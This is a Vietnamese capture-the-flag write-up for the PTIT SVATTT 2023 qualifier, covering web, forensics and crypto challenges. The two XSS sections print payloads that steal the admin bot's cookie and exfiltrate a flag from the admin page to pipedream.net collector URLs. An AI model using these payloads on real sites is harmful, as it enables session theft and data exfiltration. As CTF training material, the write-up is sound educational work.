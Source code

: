 ```yaml
---
title: Hello World!!!
date: 2021-03-21 22:00:00 +0700
categories: [Writeup, PTITSVATTT2023]
tags: [ctf,writeup]     # TAG names should always be lowercase
---
```



# Writeup CTF Tuyển chọn SVATT PTIT 2023

---

# Web01

![Untitled](/assets/img/PTITSVATTT/Untitled.png)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note, và note được nhập sẽ hiển thị ngay bên dưới

![Untitled](/assets/img/PTITSVATTT/Untitled%201.png)

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS. 

![Untitled](/assets/img/PTITSVATTT/Untitled%202.png)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```jsx
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Giải thích payload: Javascript được thực thi sẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

Sau khi gửi đường link cho bot, mã Javascript được thực thi, lấy được cookie của bot

![Untitled](/assets/img/PTITSVATTT/Untitled%203.png)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![Untitled](/assets/img/PTITSVATTT/Untitled%204.png)

![Untitled](/assets/img/PTITSVATTT/Untitled%205.png)

---

# Web02

![Untitled](/assets/img/PTITSVATTT/Untitled%206.png)

UI của challenge  là 1 form search

![Untitled](/assets/img/PTITSVATTT/Untitled%207.png)

Form search làm mình nghĩ ngay đến SQLi : D. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![Untitled](/assets/img/PTITSVATTT/Untitled%208.png)

Truy cập [`167.172.80.186:5000/docker-compose.yml`](http://167.172.80.186:5000/docker-compose.yml) lấy được password vào mysql db : D

![Untitled](/assets/img/PTITSVATTT/Untitled%209.png)

Chui vào db mình lấy được flag xD

![Untitled](/assets/img/PTITSVATTT/Untitled%2010.png)

---

# Web01-again

![Untitled](/assets/img/PTITSVATTT/Untitled%2011.png)

Vẫn là cái UI của bài web01 trước

![Untitled](/assets/img/PTITSVATTT/Untitled%2012.png)

vẫn là con BOT cũ

![Untitled](/assets/img/PTITSVATTT/Untitled%2013.png)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag `http-only`

![Untitled](/assets/img/PTITSVATTT/Untitled%2014.png)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot  lấy luôn flag về cho mình : D

POC để con bot truy cập `admin pannel` và lấy flag cho mình

```jsx
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

ok, giải thích qua 1 chút POC

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format `ATTT{.......}`

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

và boom

![Untitled](/assets/img/PTITSVATTT/Untitled%2015.png)

và boom, again

![Untitled](/assets/img/PTITSVATTT/Untitled%2016.png)

---

# For01

![Untitled](/assets/img/PTITSVATTT/Untitled%2017.png)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![Untitled](/assets/img/PTITSVATTT/Untitled%2018.png)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. Trong mỗi thư mục con lại có 100 file `.txt` `0.txt` đến `100.txt` . Nhiệm vụ của chúng ta là tìm ra flag trong đống file `.txt` đấy : D. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```jsx
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file `.txt` trong thư mục con, kết quả tìm ra flag : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2019.png)

---

# Crypto01

![Untitled](/assets/img/PTITSVATTT/Untitled%2020.png)

Source code enc.cpp:

```jsx
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự  thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay xD. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được : D

![Untitled](/assets/img/PTITSVATTT/Untitled%2021.png)